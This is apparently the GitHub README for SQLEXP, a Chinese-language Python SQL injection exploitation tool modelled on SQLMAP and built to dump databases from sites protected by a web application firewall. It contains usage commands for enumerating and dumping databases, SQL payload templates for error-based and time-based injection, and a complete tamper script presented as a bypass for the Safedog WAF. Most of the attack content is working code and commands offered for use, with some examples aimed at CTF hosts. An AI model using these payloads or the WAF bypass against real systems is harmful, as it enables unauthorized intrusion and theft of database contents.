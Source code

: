 # SQLEXP
[![Python 2.7](https://img.shields.io/badge/python-2.7-yellow.svg)](https://www.python.org/)[![License](https://img.shields.io/badge/license-GPLv3-red.svg)](https://github.com/ggg4566/SQLEXP/blob/master/LICENSE)

​		SQL 注入利用工具，存在waf的情况下自定义编写tamper脚本 dump数据.

​		对于SQL注入漏洞利用通常情况下我们使用SQLMAP，在waf存在的场景下想利用自己独有的payload进行注入抓取数据，这个时候SQLMAP就显得那么力不存心，这种情况并不少见，对于ctfer来说经常会遇到，每次都要重复编写脚本对于一个IT人士来说显然不可接受。该工具正是解决waf存在场景下利用SQLMAP dump数据的难题，使用方法和SQLMAP基本相同，只要你会使用SQLMAP那么该工具上手非常容易.

![image-20200427175012921](https://raw.githubusercontent.com/ggg4566/SQLEXP/master/images/image-20200427175012921.png)

**使用手册：**

​		使用方法和SQLmap类似，仅仅实现了mysql、oracle、mssql,支持[U|E|B|T]四种方式的注入。

* 该工具仅仅是用来利用SQL注入漏洞，并不支持检测
* 只实现了最基本的数据dump功能并不能像SQLMAP一样--os-shell以及其他用法
* 从request 文件里面加载利用注入点插入$\*$ ```id=1$*$&submit=submit```

---

```
Usage: python SQLEXP.py [options]

Options:
  -h, --help  show this help message and exit
Usage: python SQLEXP.py [options]

Options:
  -h, --help            show this help message and exit
  -v, --version         Show program's version number and exit

  Target:
    At least one of these options has to be provided to define the
    target(s)

    -u URL, --url=URL   Target URL (e.g. "http://www.site.com/vuln.php?id=1")

  Request:
    These options can be used to specify how to connect to the target URL

    --method=METHOD     Force usage of given HTTP method (e.g. GET|POST)
    --data=DATA         Data string to be sent through POST
    --cookie=COOKIE     HTTP Cookie header value
    --proxy=PROXY       Use a proxy to connect to the target URL,only can use
                        http proxy:[http://127.0.0.1:8080]
    --timeout=TIMEOUT   Seconds to wait before timeout connection
    --delay=DELAY_TIME  dbms delay timeout

  Injection:
    These options can be used to specify which parameters to test for,
    provide custom injection payloads and optional tampering scripts

    -p PARAMETER        Testable parameter(s)
    --dbms=DBMS         Force back-end DBMS to this value
    --technique=TECH    SQL injection techniques to use (default "E")
    --string=FLAG       String to match when query is evaluated to True
    --time-sec=TIME_SEC
                        Seconds to wait before timeout connection
    --order-sec=ORDER_SEC
                        Resulting page URL searched for second-order response
    --tamper=TAMPER     Use given script(s) for tampering injection data
    --current-user      Retrieve DBMS current user
    --current-db        Retrieve DBMS current database
    --dbs               Enumerate DBMS databases
    --tables            Enumerate DBMS database tables
    --columns           Enumerate DBMS database table columns
    --dump              Dump DBMS database table entries
    -D DB               DBMS database to enumerate
    -T TBL              DBMS database table(s) to enumerate
    -C COL              DBMS database table column(s) to enumerate

  Misc:
    These options can be show some additional function.

    --debug             show deubg payload.
    
 Example: 
 list dbs:
#python SQLEXP.py -u "http://test.com/bypass
_sql/sqlinject.php?id=1" -p id --dbms mysql --dbs --tech U
 list tables:
#python SQLEXP.py -u "http://test.com/bypass
_sql/sqlinject.php?id=1" -p id --dbms mysql -D test --tables --tech U --proxy http://127.0.0.1:8080
 dump test db data:
#python SQLEXP.py -u "http://test.com/bypass
_sql/sqlinject.php?id=1" -p id --dbms mysql -D test --dump --tech E
#python SQLEXP.py -u "http://web.jarvisoj.com:32787/login.php" --data="username=user&password=admin" -p username --tamper=tamper_blank --dbms=mysql --technique=B --string="密码错误" --method=post  --dbs
#python SQLEXP.py-u http://localhost/sqlinject/sqlinject.php?id=2  -r req.txt --dbms mysql --tech E  --current-user  --debug
```

**开发手册：**

---

* 二次开发

工具设计思想借鉴了SQLMAP整个payload由boundary和基本查询query构成

![image-20200427183437621](https://raw.githubusercontent.com/ggg4566/SQLEXP/master/images/image-20200427183437621.png)

为了方便扩展添加支持其他数据库，构造语句和payload高度分离，不同数据库不同注入方法使用单独一个文件编写，由于对数据库基本查询能力进行了高度抽象化，所以添加支持其他数据引擎非常容易，只需要copy一份已经支持的数据库代码文件，在payload.py里面添加相对应的boundary和 base query即可。

​		比如添加支持db2：

​		1.copy -r SQLEXP\lib\core\dbs\mysql SQLEXP\lib\core\dbs\db2

  	  2.在SQLEXP\lib\parse\payload.py文件里面添加对应的代码

```python
db2_boundarys = {
    "length":"and len(%query)=%value",
    "time_length":"if(len(%query)>%value) WAITFOR DELAY '0:0:{T}'".format(T = conf.time_sec),
    ....
}
db2_payloads = {
    "query":"(select %s from t_n)",
    "base_query":"(select temp from (select ROW_NUMBER() OVER(order by (select 0)) AS limit,(%s) as temp from t_n)xx where limit=%d)",
    "query_tab":"(select tn from (select  ROW_NUMBER() OVER(order by (select 0)) AS limit,(%s) as tn from {db}.t_n)xx where limit=%d)",
    ...
}
....
if conf.dbms == 'db2':
    BOUNDARY.update(mssql_boundarys)
    SQL.update(mssql_payloads)
```

​	一定注意的的是这里创建的数据库文件夹和py文件名和--dbms参数联系紧密，程序运行的时候通过--dbms的参数来决定加载那个数据库引擎的代码，所以果然--dbms=db2的时候，db2/db2_E.py,db2/db2_U.py等文件一定要存在。

![image-20200427185702838](https://raw.githubusercontent.com/ggg4566/SQLEXP/master/images/image-20200427185702838.png)

![image-20200427185838021](https://raw.githubusercontent.com/ggg4566/SQLEXP/master/images/image-20200427185838021.png)

* Tamper编写

  tamper主要针对waf存在场景下的数据dump.

  编写非常简单只要将bounday和query替换为自己测试绕过的语句即可,以下为最新safedog的绕过tamper

  ```python
  #! /usr/bin/env python
  # -*- coding:utf-8 -*-
  # author:flystart
  # home:www.flystart.org
  
  b = " xor exp(~(/*!50000select*/*from(select(%query))a))"
  
  def do(strings):
      if "concat" in strings:
          strings = strings.replace('concat(',"/*!concat*/(")
      if "user" in strings:
          strings = strings.replace('user(',"/*!user*/(")
      strings = strings.replace(' and ', "&&")
      return strings
  def tamper(boundary,query):
      # print 'tamper'
      boundary = b
      query = do(query)
      return boundary,query
  ```

  ![image-20200427190147278](https://raw.githubusercontent.com/ggg4566/SQLEXP/master/images/image-20200427190147278.png)